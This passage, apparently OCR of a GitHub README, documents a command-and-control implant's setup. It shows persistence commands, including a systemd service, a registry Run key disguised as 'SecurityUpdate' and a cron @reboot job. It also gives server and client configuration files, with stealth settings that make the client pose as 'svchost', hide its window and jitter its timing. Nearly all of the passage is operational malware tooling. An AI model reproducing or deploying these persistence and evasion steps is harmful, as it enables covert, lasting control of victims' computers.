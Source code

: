 ```bash
WantedBy=multi-user.target
EOF

# Enable and start
sudo systemctl enable system-monitor
sudo systemctl start system-monitor
```

#### **Method 4: Persistence via Scripts**
```powershell
# PowerShell persistence (Windows)
$path = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
Set-ItemProperty -Path $path -Name "SecurityUpdate" -Value "C:\path\to\client.exe"
```

```bash
# Cron persistence (Linux)
(crontab -l 2>/dev/null; echo "@reboot /opt/client/daemon") | crontab -
```

## 🔧 Configuration Management

### **Server Configuration**
```toml
# server_config.toml
[server]
bind_address = "0.0.0.0"
bind_port = 4444
rsa_key_size = 2048
heartbeat_timeout = 300
max_clients = 100

[security]
require_auth = true
auth_token = "your-secret-token"
enable_logging = true
log_file = "/var/log/c2_server.log"

[persistence]
save_state = true
state_file = "/var/lib/c2/state.json"
```

### **Client Configuration**
```toml
# client_config.toml
[client]
server_address = "your-server.com"
server_port = 443
reconnect_delay = 60
heartbeat_interval = 300
command_poll_interval = 10
max_reconnect_attempts = 0

[stealth]
process_name = "svchost"
hide_window = true
random_delays = true
jitter_percent = 20

[persistence]
enabled = true
method = "registry"  # registry, service, scheduled_task
location = "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run"
```